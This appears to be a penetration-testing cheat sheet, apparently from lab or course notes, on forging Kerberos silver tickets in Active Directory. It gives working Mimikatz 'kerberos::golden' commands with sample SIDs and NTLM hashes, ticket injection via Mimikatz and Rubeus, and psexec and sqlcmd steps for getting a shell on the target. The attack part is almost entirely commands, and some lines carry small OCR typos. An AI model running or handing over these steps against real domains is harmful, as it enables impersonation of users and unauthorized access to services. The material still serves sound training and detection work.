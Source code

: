 - Obtaining Domain SID
```powershell
ps> whoami /user
# this gives SID of the user that we're logged in as. If the user SID is "S-1-5-21-1987370270-658905905-1781884369-1105" then the domain SID is "S-1-5-21-1987370270-658905905-1781884369" i.e. omit RID of "1105"
```

- Forging silver ticket (TGS) Ft **Mimikatz**
<aside>
Forging a TGS (and included PAC)
Requires the machine account password (key) from the KDC
Can be used to directly access any service (without touching DC)
</aside>

```bash
mimikatz.exe
prvilege::debug
#using NTLM generate the Silver Ticket (TGS) and inject it into memory for current session using /ptt
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user> /ptt
      kerberos: :golden /user:offsec /domain:corp.com /sid: S-1-5-21-4038953314-3014849035-1274281563 /target:CorpSqlServer.corp.com:1433 /service:MSSQLSvc /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
      kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

#using NTLM generate the Silver Ticket (TGS) and inject it into memory for current session and output to ticket.kirbi using /ticket flag
kerberos::golden /sid:<domainSID> /domain:<domain-name> /ptt /target:<targetsystem.domain> /service:<service-name> /rc4:<NTLM-hash> /user:<new-user> /ticket
#using aeskey generate the Silver Ticket (TGS) and inject it into memory
kerberos::golden /domain:$DOMAIN/sid:$DOMAIN_SID /aes128:$KRBTGT_AES_128_KEY /user:$DOMAIN_USER /service:$SERVICE_SPN /target:$SERVICE_MACHINE_HOSTNAME

# Checking if the forged tickets is in memory
ps> klist

#verify access to targeted SPN
iwr -UseDefaultCredentials http://web04
```

- Inject the ticket (not needed if the TGS is already loaded in current session)

```bash
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>
        .\Rubeus.exe ptt /ticket:C:\Temp\silver.kirbi
```

- Obtain a shell

```bash
cmd> psexec.exe -accepteula \\<remote_hostname> cmd   # psexec
cmd> sqlcmd.exe -S [service_hostname]                 # if service is MSSQL
```
